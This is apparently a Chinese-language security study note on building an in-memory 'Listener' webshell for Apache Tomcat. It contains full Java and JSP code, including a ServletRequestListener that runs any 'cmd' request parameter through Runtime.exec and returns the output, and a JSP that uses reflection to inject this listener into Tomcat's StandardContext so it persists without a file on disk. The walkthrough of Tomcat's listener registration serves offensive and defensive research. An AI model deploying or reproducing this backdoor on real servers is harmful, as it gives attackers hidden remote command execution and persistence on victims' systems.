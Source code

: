 # Tomcat-Listener内存马

## 前言

之前学了Filter内存马，现在开始Listener内存马的学习。Listener内存马比Filter内存马简单多了。。。学习自天下大木头师傅的文章。

## Listener构造

Tomcat对于加载优先级是 **listener -> filter -> servlet**，所以Listener优先级最高。

Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

肯定是第三种作为内存马。

POC：

```java
package com.feng.listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;

@WebListener
public class MemoryListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        ServletRequestListener.super.requestDestroyed(sre);
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade servletRequest = (RequestFacade) sre.getServletRequest();
        Class clazz = servletRequest.getClass();
        try {
            Field requestField = clazz.getDeclaredField("request");
            requestField.setAccessible(true);
            Request req = (Request)requestField.get(servletRequest);
            Response resp = req.getResponse();
            String cmd = req.getParameter("cmd");
            if (cmd!=null) {
                String[] cmds = new String[]{"cmd", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    resp.getWriter().println(outputStream.toString());
                }
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}

```

`requestInitialized`函数中的内容就是我们每次请求的时候Listener会调用的函数，恶意代码写在里面即可，但是问题是如何获取request，参数`ServletRequestEvent sre`的`getServletRequest`方法得到的是`RequestFacade`对象（sout打印出来就可以知道），它的`request`属性就是`Request`，所以反射调用即可。

## Listener的注册

就像Filter内存马一样需要知道tomcat是怎么注册Listener的，在类上打断点然后debug运行：

![image-20220313131646284](Tomcat-Listener内存马.assets/image-20220313131646284.png)

根据堆栈的调用找到了`listenerStart`：

![image-20220313131708336](Tomcat-Listener内存马.assets/image-20220313131708336.png)

跟进去，发现就是Listener的注册了。

通过`newInstance()`获取所有的Listener对象：

![image-20220313131842452](Tomcat-Listener内存马.assets/image-20220313131842452.png)

如果是`instanceof ServletRequestListener`就会添加进`eventListeners`中。

![image-20220313131905498](Tomcat-Listener内存马.assets/image-20220313131905498.png)

`eventListeners`会被添加进`applicationEventListenersList`

![image-20220313131951030](Tomcat-Listener内存马.assets/image-20220313131951030.png)

![image-20220313132017388](Tomcat-Listener内存马.assets/image-20220313132017388.png)

而在真正请求的时候debug，根据堆栈会发现在`fireRequestInitEvent`调用`requestInitialized`：

![image-20220313132135653](Tomcat-Listener内存马.assets/image-20220313132135653.png)

而`listener`是从`getApplicationEventListeners（）`获取的：

```java
    public Object[] getApplicationEventListeners() {
        return this.applicationEventListenersList.toArray();
    }
```

所以清晰了，只需要把我们的Listener写进`applicationEventListenersList`就行了。比Filter的注册流程简单太多了。。。。

## EXP

```java
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.concurrent.CopyOnWriteArrayList" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Arrays" %>
<%@ page import="java.util.ArrayList" %><%--
  User: feng
  Date: 2022/3/13
  Time: 13:23
--%>
<%!
    public class MemoryListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            ServletRequestListener.super.requestDestroyed(sre);
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            RequestFacade servletRequest = (RequestFacade) sre.getServletRequest();
            Class clazz = servletRequest.getClass();
            try {
                Field requestField = clazz.getDeclaredField("request");
                requestField.setAccessible(true);
                Request req = (Request)requestField.get(servletRequest);
                Response resp = req.getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd!=null) {
                    String[] cmds = new String[]{"cmd", "/c", cmd};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        resp.getWriter().println(outputStream.toString());
                    }
                }

            } catch (NoSuchFieldException e) {
                e.printStackTrace();
            } catch (IllegalAccessException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
%>

<%
    MemoryListener memoryListener = new MemoryListener();
    ServletContext servletContext = request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(servletContext);
    Field contextField = applicationContext.getClass().getDeclaredField("context");
    contextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)contextField.get(applicationContext);

    System.out.println(standardContext);
    Object[] applicationEventListeners = standardContext.getApplicationEventListeners();
    List<Object> objects = Arrays.asList(applicationEventListeners);
    List<Object> objectsList = new ArrayList<>(objects);
    objectsList.add(memoryListener);
    applicationEventListeners = objectsList.toArray();
    standardContext.setApplicationEventListeners(applicationEventListeners);


%>
```

有2个需要注意的点。

首先是`StandContext`的获取，Filter内存马中已经提到了。

第二个就是这里：

```java
    List<Object> objects = Arrays.asList(applicationEventListeners);
    List<Object> objectsList = new ArrayList<>(objects);
    objectsList.add(memoryListener);
    applicationEventListeners = objectsList.toArray();
```

Java的List不支持add，需要先转成`ArrayList`才行。

别的构造就不是很难了。

